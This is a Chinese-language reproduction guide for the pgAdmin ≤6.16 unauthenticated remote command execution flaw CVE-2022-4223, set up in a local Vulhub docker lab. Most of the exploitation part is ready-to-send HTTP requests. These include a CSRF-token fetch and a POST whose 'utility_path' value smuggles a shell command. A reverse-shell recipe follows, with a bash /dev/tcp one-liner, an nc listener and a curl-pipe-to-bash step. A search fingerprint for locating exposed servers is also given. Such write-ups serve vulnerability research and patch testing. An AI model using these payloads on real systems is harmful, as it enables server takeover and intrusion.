 # pgAdmin ≤ 6.16 无授权远程命令执行漏洞 CVE-2022-4223

## 漏洞描述

pgAdmin 是一个著名的 PostgreSQL 数据库管理平台。

pgAdmin 包含一个 HTTP API 可以用来让用户选择并验证额外的 PostgreSQL 套件，比如 pg_dump 和 pg_restore。但在其 6.16 版本及以前，对于用户传入的路径没有做合适的验证，导致未授权的用户可以在目标服务器上执行任意命令。

参考链接：

- https://github.com/pgadmin-org/pgadmin4/commit/799b6d8f7c10e920c9e67c2c18d381d6320ca604
- https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595
- https://github.com/advisories/GHSA-3v6v-2x6p-32mc

## 漏洞影响

```
pgAdmin 版本 <= 6.16
```

## 网络测绘

```
"pgadmin" && icon_hash="1502815117"
```

## 环境搭建

Vulhub 执行如下命令启动一个 pgAdmin 6.16 服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:5050`即可查看到 pgAdmin 默认的登录页面。

![](images/pgAdmin%20≤%206.16%20无授权远程命令执行漏洞%20CVE-2022-4223/image-20240407115458078.png)

若环境启动时报错 `RuntimeError: can't start new thread`，则需要升级 docker 和 docker-compose：

```shell
# 参考版本
Docker version 26.0.0, build 2ae903e
Docker Compose version v2.26.1
```

## 漏洞复现

在复现漏洞前，需要发送如下数据包获取 csrf token：

```
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close
```

在返回包中拿到一个新的 session id 和 csrf token：

```
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.14
Date: Sun, 07 Apr 2024 03:52:54 GMT
Content-Type: application/json
Content-Length: 142
Vary: Accept-Encoding
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: default-src ws: http: data: blob: 'unsafe-inline' 'unsafe-eval';
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Server: Python
Set-Cookie: pga4_session=990e222d-ec6b-4a34-883f-b5e1634c7b8b!B6rx2SOWPi/Cixy+HdVIe0z/Ez6tkKgx3O2SpMYcePE=; Expires=Mon, 08 Apr 2024 03:52:54 GMT; HttpOnly; Path=/; SameSite=Lax
Connection: close

{"meta":{"code":200},"response":{"csrf_token":"ImJlNjk0NTdjOTg0YTIzOTYzMzUyMzk5NzRkYWIyOGQ5NTk2Yjc1NGQi.ZhIYlg.4ZuZvRDiGHuXQdJN3HCnvBzgamo"}}
```

![](images/pgAdmin%20≤%206.16%20无授权远程命令执行漏洞%20CVE-2022-4223/image-20240407115321919.png)

然后，将获取到的 session id 和 csrf token 填写进下面的数据包并发送（如果这一步的响应包状态码不是 `200 OK`，而是 `302 Found`，则跟进重定向，直到返回 `200 OK`。然后返回上一步，再次发送 `GET /login` 请求包）：

```
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";id;#"}
```

可见，`id`命令已经被成功执行：

![](images/pgAdmin%20≤%206.16%20无授权远程命令执行漏洞%20CVE-2022-4223/image-20240407115433460.png)

反弹 shell：

```shell
# attacker
# step 1
cat bash.html
-----
/bin/bash -i >& /dev/tcp/<your-ip>/8888 0>&1
# step 2
python3 -m http.server 9999
# step3
nc -lvnp 8888

# victim
curl http://<your-ip>:9999/bash.html|bash
```

![](images/pgAdmin%20≤%206.16%20无授权远程命令执行漏洞%20CVE-2022-4223/image-20240407153336657.png)

